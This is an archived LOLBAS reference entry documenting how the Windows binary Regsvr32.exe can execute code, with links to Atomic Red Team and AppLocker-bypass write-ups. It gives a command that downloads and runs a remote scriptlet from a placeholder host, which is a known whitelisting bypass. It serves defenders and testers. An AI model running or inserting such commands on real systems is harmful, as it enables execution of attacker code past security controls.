 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Regsvr32.exe
  
* Functions: Execute

```
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll    
    
regsvr32.exe /s /u /i:file.sct scrobj.dll     
```
   
Acknowledgements:
* Casey Smith - @subtee
   
Code sample:
* [Regsvr32_calc.sct](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payloads/Regsvr32_calc.sct)[1]

Resources:
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md
* https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
* https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/

Full path:
```
C:\Windows\System32\regsvr32.exe
C:\Windows\SysWOW64\regsvr32.exe
```

Notes:
[1]Code sample linked to Red Canary - Atomic Red Team


 

   
   